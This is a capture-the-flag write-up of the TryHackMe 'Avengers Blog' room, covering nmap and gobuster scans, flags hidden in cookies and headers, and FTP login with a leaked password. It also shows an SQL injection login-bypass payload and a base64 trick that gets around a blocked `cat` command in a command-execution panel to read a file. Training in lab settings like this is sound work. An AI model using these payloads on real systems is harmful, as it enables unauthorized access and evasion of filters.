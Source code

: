 ```yaml
---
title: "TryHackMe - Avengers Blog"
author: Nasrallah
description: ""
date: 2022-10-01 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy]
img_path: /assets/img/tryhackme/avengersblog
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Avengers Blog](https://tryhackme.com/room/avengers) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.2.129
Host is up (0.10s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 11:72:9e:e8:be:b3:ff:a7:20:83:c1:56:bd:73:99:d2 (RSA)
|   256 ee:03:dd:4c:89:ec:68:ac:65:e0:29:93:f4:d2:ef:af (ECDSA)
|_  256 0f:d9:55:cb:8b:46:52:82:bc:10:7d:23:00:2c:a3:bd (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Avengers! Assemble!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports, 21(ftp), 22(ssh) and 80(http).

### Web

Let's navigate to the web page.

![](1.png)

Here we can see some of the avengers' posts and comments.

Check the cookie with `F12` -> `storage`

![](8.png)

Got the first flag.

Let's check the headers by pressing F12 and going to the network tab.

![](2.png)

We found the second flag.

At the bottom, we see an interesting post.

![](3.png)

We got the passoword of groot, let's login via ftp.

![](4.png)

Got the third flag. Let's move on.

### Gobuster

Let's run a directory scan.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.2.129/ | tee scans/gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.2.129/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/15 06:59:59 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/home                 (Status: 302) [Size: 23] [--> /]        
/Home                 (Status: 302) [Size: 23] [--> /]        
/img                  (Status: 301) [Size: 173] [--> /img/]   
/js                   (Status: 301) [Size: 171] [--> /js/]    
/logout               (Status: 302) [Size: 29] [--> /portal]  
/portal               (Status: 200) [Size: 1409]              
                                                              
===============================================================
```

Found **/portal** directory, let's check it out.

![](5.png)

We found a login page, i tried some default credentials but no luck, then i tried sql injection and managed to login with this payload `' or 1=1 -- -`.

![](6.png)

Seems we can execute some command here, let's try `ls`.

![](7.png)

We can execute commands but not everything. Checking one directory up we find the fifth flag.

![](9.png)


We can't run the command `cat` to print out the flag, instead we can use the following command that would base64 encode the flag and then decode it.

```bash
base64 ../flag5.txt | base64 -d
```

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
